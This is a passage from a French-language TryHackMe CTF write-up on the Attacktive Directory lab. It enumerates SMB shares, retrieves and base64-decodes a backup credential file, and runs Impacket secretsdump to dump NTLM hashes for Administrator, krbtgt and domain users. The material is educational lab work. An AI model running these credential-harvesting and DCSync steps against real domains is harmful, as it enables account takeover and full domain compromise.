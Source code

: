 Réponse : -L    

**How many remote shares is the server listing?**

Il y 6 partages.    

Réponse : 6         

**There is one particular share that we have access to that contains a text file. Which share is it?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\attacktivedirect.thm\\backup -U 'svc-admin'
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

		8247551 blocks of size 4096. 3972011 blocks available
smb: \> 
```

La partage qui contient un fichier texte est : backup     

**What is the content of the file?**

```bash
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
smb: \> exit
tim@kali:~/Bureau/tryhackme/write-up$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

On récupère le fichier et on le lit.  

Le contenu du fichier est : YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw    

**Decoding the contents of the file, what is the full contents?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 -d
backup@spookysec.local:backup2517860
```

C'est du base64.

Le contenu décodé est : backup@spookysec.local:backup2517860     

## Task 7 Domain Privilege Escalation Elevating Privileges within the Domain ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ secretsdump.py -just-dc backup@spookysec.local
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
```